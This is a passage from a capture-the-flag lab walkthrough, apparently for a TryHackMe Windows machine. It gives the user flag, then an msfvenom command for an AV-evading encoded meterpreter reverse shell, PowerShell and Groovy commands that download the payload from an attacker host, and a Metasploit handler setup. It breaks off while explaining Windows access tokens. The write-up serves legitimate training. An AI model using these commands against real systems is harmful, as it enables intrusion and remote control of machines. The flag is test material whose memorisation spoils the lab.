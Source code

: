 > What is the user.txt flag? 

`79007a09481963edf2e1321abd9ae2a0`

## Switching Shells

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.4.96.175 LPORT=1234 -f exe -o shell-name.exe`

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

- After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.4.96.175:8000/shell-name.exe','shell-name.exe')"`

`println "powershell (New-Object System.Net.WebClient).Downloadfile('http://10.4.96.175:8000/shell-name.exe','shell-name.exe')".execute().text`

- Before running this program, ensure the handler is set up in Metasploit:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-thm-ip
set LPORT listening-port
run
```

- This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell

`Start-Process "shell-name.exe"`

This should spawn a meterpreter shell for you!

---

## Privilege Escalation

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- User SIDs(security identifier)
- Group SIDs
- Privileges

Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:
